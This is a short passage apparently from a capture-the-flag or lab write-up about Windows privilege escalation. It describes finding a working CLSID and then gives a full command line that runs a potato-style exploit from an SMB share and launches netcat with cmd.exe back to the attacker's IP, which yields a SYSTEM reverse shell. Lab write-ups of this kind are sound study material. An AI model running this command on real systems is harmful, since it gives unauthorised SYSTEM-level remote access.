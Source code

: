We try to execute the command with each of the CLSIDs, one at a time, since only some of them might actually work. Eventually, we find that the CLSID `8BC3F05E-D86B-11D0-A075-00C04FB68820` works! More specifically, when we execute `\\10.10.14.3\myShare\jp.exe -t t -p  c:\windows\system32\cmd.exe -a "/c \\10.10.14.3\myShare\nc.exe 10.10.14.3 443 -e cmd.exe" -l 1337 -c {8BC3F05E-D86B-11D0-A075-00C04FB68820}`, we successfully obtain a shell with `SYSTEM` privileges, as can be seen in the image above.

